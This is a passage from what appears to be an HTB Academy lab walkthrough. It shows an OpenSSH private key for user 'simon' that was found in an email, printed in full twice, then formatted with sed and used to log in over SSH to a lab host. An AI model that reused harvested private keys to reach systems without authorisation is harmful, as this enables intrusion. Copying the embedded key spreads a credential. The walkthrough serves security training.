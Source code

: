```bash
+OK Logging out.
```

**Critical Discovery**: SSH private key for user `simon` obtained from email

---

## 🔐 Phase 6: SSH Key Processing & Authentication

### SSH Key Formatting
```bash
# HTB Academy SSH private key extraction and formatting
echo '-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAlwAAAAdzc2gtcn NhAAAAAwEAAQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S4 4W1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKm w5xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAIITrtUA067VAMAAAAH c3NoLXJzYQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S44W 1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKmw5 xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAADAQABAAAAgQe3Qpknxi 6E89J55pCQoyK65hQ0WjTrqCUvt9oCUFggw85Xb+AU16tQz5C8sC55vH8NK9HEVk6/8lSR Lhy82tqGBfgGfvrx5pwPH9a5TFhxnEX/GHIvXhR0dBlbhUkQrTqOIc1XUdR+KjR1j8E0yi ZA4qKw1pK6BQLkHaCd3csBoQAAAEECeVZIC1Pq6T8/PnIHj0LpRcR8dEN0681+OfWtcJbJ hAWVrZ1wrgEg4i75wTgud5zOTV07FkcVXVBXSaWSPbmR7AAAAEED81FX7PttXnG6nSCqjz B85dsxntGw7C232hwgWVPM7DxCJQm21pxAwSLxp9CU9wnTwrYkVpEyLYYHkMknBMK0/QAA AEEDgPIA7TI4F8bPjOwNlLNulbQcT5amDp51fRWapCq45M7ptN4pTGrB97IBKPTi5qdodg O9Tm1rkjQ60Ty8OIjyJQAAABBzaW1vbkBsaW4tbWVkaXVtAQ== -----END OPENSSH PRIVATE KEY-----' | sed 's/ /\n/g' > id_rsa
```

### Formatted SSH Private Key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S4
4W1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKm
w5xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAIITrtUA067VAMAAAAH
c3NoLXJzYQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S44W
1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKmw5
xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAADAQABAAAAgQe3Qpknxi
6E89J55pCQoyK65hQ0WjTrqCUvt9oCUFggw85Xb+AU16tQz5C8sC55vH8NK9HEVk6/8lSR
Lhy82tqGBfgGfvrx5pwPH9a5TFhxnEX/GHIvXhR0dBlbhUkQrTqOIc1XUdR+KjR1j8E0yi
ZA4qKw1pK6BQLkHaCd3csBoQAAAEECeVZIC1Pq6T8/PnIHj0LpRcR8dEN0681+OfWtcJbJ
hAWVrZ1wrgEg4i75wTgud5zOTV07FkcVXVBXSaWSPbmR7AAAAEED81FX7PttXnG6nSCqjz
B85dsxntGw7C232hwgWVPM7DxCJQm21pxAwSLxp9CU9wnTwrYkVpEyLYYHkMknBMK0/QAA
AEEDgPIA7TI4F8bPjOwNlLNulbQcT5amDp51fRWapCq45M7ptN4pTGrB97IBKPTi5qdodg
O9Tm1rkjQ60Ty8OIjyJQAAABBzaW1vbkBsaW4tbWVkaXVtAQ==
-----END OPENSSH PRIVATE KEY-----
```

### SSH Key Permissions & Access
```bash
# HTB Academy SSH key permission setup
chmod 600 id_rsa

# SSH connection using private key
ssh -i id_rsa simon@10.129.229.46

The authenticity of host '10.129.229.46 (10.129.229.46)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.46' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
<SNIP>
```

---